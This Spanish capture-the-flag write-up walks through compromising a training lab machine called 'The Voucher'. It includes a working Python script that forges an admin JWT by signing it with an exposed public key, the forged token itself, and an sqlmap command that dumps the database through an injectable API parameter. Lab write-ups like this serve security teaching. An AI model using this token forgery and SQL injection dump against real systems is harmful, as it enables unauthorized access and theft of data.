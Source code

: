 # 🖥️ Write-Up: [THE VOUCHER](https://labs.thehackerslabs.com/machine/134)

## 📌 Información General
    - Nombre de la máquina: The Voucher
    - Dificultad: Avanzado
    - Creador: K0B4KS
    - OS: Linux
    - Objetivos: Obtención de la Flag de usuario y de root

---

## 🔍 Enumeración

La máquina The Voucher posee la IP 10.0.5.17.

### Descubrimiento de Puertos

Realizamos un reconocimiento de todos los puertos de la máquina y nos quedamos únicamente con aquellos que están abiertos.

![allPorts](screenshots/allPorts.png)

La máquina tiene abiertos los `puertos 22, 80 y 8080`, así que vamos a proceder a realizar un escaneo de los servicios y las versiones de ellos que se encuentran en ejecución en esos puestos.

![target](screenshots/target.png)

Como no disponemos de credenciales y el puerto 22 no es vulnerable, vamos a proceder con el análisis de los puertos 80 y 8080.


#### Puerto 80

Nos encontramos con la página por defecto de Apache. Tras buscar subdirectorios y revisar el código fuente no encontramos nada.

Así que pasamos al siguiente puerto.

#### Puerto 8080

Aquí vemos la web de una academia de ciberseguridad. Tras revisarla, vemos que tenemos un index, un panel de login (login.php) y un panel de búsqueda de cursos (courses.php).

![home](screenshots/home.png)

Vamos a revisar el panel de búsqueda de cursos. Este nos exige un token para poder realizar la búsqueda, como no disponemos de uno, vamos a probar el panel de login.

![courses](screenshots/courses.png)

Tras intentar diferentes técnicas de bypass, sql injections, nosql injections,... en el panel de login, no hemos obtenido ningún resultado. Por lo tanto, vamos a utilizar la herramienta de wfuzz para enumerar subdirectorios de la web.

![subdirectorios](screenshots/directorio-keys.png)

Hemos encontrado un directorio `keys`, por su nombre, es posible que contenga algún tipo de llave, con esta idea en mente realizamos una enumeración de archivos en su interior con las extensiones de pem, pub, cert.

![files in keys](screenshots/public_keys.png)

Y como resultado de la búsqueda obtenemos un archivo `public.pem`, así que procedemos a ingresar en nuestro navegador la url `http://10.0.5.17:8080/keys/public.pem` para descargarlo, una vez hecho vemos que el archivo contiene una llave pública.


## 🔥Explotación

Con este llave vamos a intentar falsificar un Json Web Token esperando que el servidor esté mal configurado y únicamente firme el token con la llave pública que hemos encontrado. 

Para ello, usamos el siguiente script de python3: 

```python
import json, base64, hmac, hashlib

# Functions
def b64url_encode(data):
    s = base64.urlsafe_b64encode(data).rstrip(b"=")
    return s.decode("ascii")

def b64url_encode_json(obj):
    j = json.dumps(obj, separators=(',', ':'), sort_keys=True)
    return b64url_encode(j.encode('utf-8'))

def hmac_sha256(key, msg):
    return hmac.new(key, msg, hashlib.sha256).digest()

def build_token(header_obj, payload_obj, key_bytes):
    encoded_header = b64url_encode_json(header_obj)
    encoded_payload = b64url_encode_json(payload_obj)
    signing_input = (encoded_header + "." + encoded_payload).encode('ascii')
    sig = hmac_sha256(key_bytes, signing_input)
    encoded_sig = b64url_encode(sig)
    return f"{encoded_header}.{encoded_payload}.{encoded_sig}"


# Open public.pem
with open("public.pem", "rb") as file:
        key_bytes=file.read()

# Create JWT
header = {"alg": "HS256", "typ": "JWT"}

payload = {"username": "admin"},

token= build_token(header,payload, key_bytes)

print("Token--> " + token)
```

Este script nos devuelve este token --> `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.W3sidXNlcm5hbWUiOiJhZG1pbiJ9XQ.p5xuSYdRW7kENc1nzySrtNorfnIAzOnEA5WgixfYHOY`

Ahora vamos a probar el token. Pero antes, revisamos el código fuente de courses.php para ver como y hacia donde se tramita la petición, ya que su función de búsqueda nos exigía un token.

![source](screenshots/api-courses.png)

Vemos que la petición se tramita mediante el método `GET` a `/api/courses.php` y le pasa el parámetro "`q`", así que vamos a usar curl para mandarle una petición a ese endpoint con el token generado y ver la respuesta.

![curl](screenshots/curl-courses.png)

El token funciona. Además, observamos un `sql_errors` en el json de la respuesta, así que podemos intentar poner una comilla al final del parámetro para ver su comportamiento y verificar si es vulnerable a una `SQL Injection`.

![slq_error](screenshots/curl-error_sql.png)

Y efectivamente, parece ser vulnerable. Por lo tanto, vamos a proceder a automatizar la inyección usando la herramienta de sqlmap sobre ese endpoint y pasándole el token generado.

```bash
sqlmap --url "http://10.0.5.17:8080/api/courses.php?q=1" --headers="Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.W3sidXNlcm5hbWUiOiJhZG1pbiJ9XQ.p5xuSYdRW7kENc1nzySrtNorfnIAzOnEA5WgixfYHOY" --dump --batch 
```

Tras filtrarnos la base de datos, podemos ver que las `flags de usuario` y de `root` están en una tabla.

![flags](screenshots/flags.png)